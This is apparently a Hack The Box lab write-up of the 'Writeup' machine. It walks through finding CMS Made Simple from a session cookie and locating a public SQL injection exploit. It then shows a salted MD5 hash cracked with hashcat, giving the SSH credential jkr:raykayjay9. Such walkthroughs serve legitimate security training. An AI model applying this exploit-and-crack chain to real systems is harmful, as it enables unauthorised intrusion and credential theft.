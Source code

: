 # 10 - HTTP

# VHost & DoS  protection
![](vx_images/2032696871657.png)


The page hints that we shouldn't run gobuster on it as the server detects and bans offenders.

# robots.txt

![](vx_images/5192454731975.png)


We can still enumerate it manually. robots.txt is a well-known place, it should always be the first place at which a pentester should look


# writeup
![](vx_images/1317702493197.png)

A  parameter is used to distinguish between the writeups. The name of the parameter is `page`, however, it doesn't seem to be vulnerable to LFI or SQLi.


# Cookie
```
GET /writeup/index.php?page=ypuffy HTTP/1.1
Host: 10.10.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.138/
DNT: 1
Connection: close
Cookie: CMSSESSID9d372ef93962=p072mflhbpj75fsf2qu12c7us2
Upgrade-Insecure-Requests: 1
Sec-GPC: 1


```



CMSSESSID is a cookie used in `CMS Made Simple`

```
┌─[user@parrot]─[10.10.14.14]─[~/htb/writeup]
└──╼ $ searchsploit cms made simple
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                    | php/webapps/46635.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There is a public exploit for CMS Made Simple.


# SQL injection
![](vx_images/1869454619033.png)

The script has builtin password cracker but I believe hashcat will be faster.

# 46635.py
```py
if hashlib.md5(str(salt) + line).hexdigest() == password:
```

we are looking for `md5(salt.password)`  type of hash



# Cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/writeup]
└──╼ $ hashcat -m 20 hash  /usr/share/wordlists/rockyou.txt 

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Thu Aug 26 20:10:43 2021 (2 secs)
Time.Estimated...: Thu Aug 26 20:10:45 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2706.1 kH/s (0.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4360192/14344385 (30.40%)
Rejected.........: 0/4360192 (0.00%)
Restore.Point....: 4358144/14344385 (30.38%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raynerleow -> raygan96

Started: Thu Aug 26 20:10:08 2021
Stopped: Thu Aug 26 20:10:46 2021
```
* jkr:raykayjay9

# SSH
![](vx_images/2200766529573.png)